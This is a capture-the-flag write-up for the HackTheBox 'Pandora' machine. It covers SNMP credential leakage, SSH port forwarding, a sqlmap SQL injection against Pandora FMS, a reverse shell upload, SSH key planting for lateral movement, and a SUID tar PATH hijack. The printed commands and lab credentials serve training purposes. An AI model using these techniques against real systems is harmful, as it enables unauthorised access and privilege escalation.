# Pandora — HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Pandora (HackTheBox)
**Author:** dsec
**Date:** 2024-12-06

---

## TL;DR

### SNMP enumeration leaked SSH creds for `daniel`. An internal-only Pandora FMS instance was accessible via SSH port forwarding. SQLi on the session_id parameter led to admin access. Uploaded a reverse shell, pivoted to `matt` via SSH key injection, then abused a SUID tar binary with PATH hijack for root.
---
## Target info

- Host: `10.129.224.93`
- Services discovered via nmap
---
## Enumeration











Found creds: `daniel:HotelBabylon23`

```bash
ssh daniel@10.129.224.93
```



---
## Internal service discovery

Checked Apache site configurations:

```bash
cd /etc/apache2/sites-enabled
cat pandora.conf | grep -Pv "^\s*#" | grep .
```

Found `<VirtualHost localhost:80>` -- Pandora FMS only listening on localhost.

SSH port forward to access:

```bash
ssh -L 9001:localhost:80 daniel@10.129.224.93
```

Browsed to `127.0.0.1:9001` on Kali:




---
## SQLi to admin



SQLi on the `session_id` parameter in chart_generator.php:

```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

Injection types found: boolean-based blind, error-based, time-based blind (MySQL/MariaDB).

Dumped sessions from sqlmap and used them to access the admin panel:







---
## Lateral movement

sudo gave a weird permissions error:





The SUID binary stood out but couldn't be exploited from the current shell. Dropped an SSH key for a full shell:

```bash
ssh-keygen -t ed25519 -f ./id_ed25519
```

On remote machine:

```bash
mkdir .ssh && cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqwSCwB7vK26CckpfDL1D0+/z6sf42jocBMLUsbca+m daniel@daniel" > authorized_keys
```

```bash
ssh -i id_ed25519 matt@panda.htb
```

---
## Privesc

Now the SUID binary could be run:



The binary used `tar` without a full path. Created a malicious `tar` in a writable directory and prepended it to PATH:





---
## Lessons & takeaways

- Always check for internal-only services via Apache/nginx site configs -- SSH port forwarding unlocks them
- SNMP can leak credentials; don't skip UDP enumeration
- When a shell is too limited for sudo/SUID exploitation, inject an SSH key for a proper interactive session
- SUID binaries calling commands without full paths are vulnerable to PATH hijacking
---
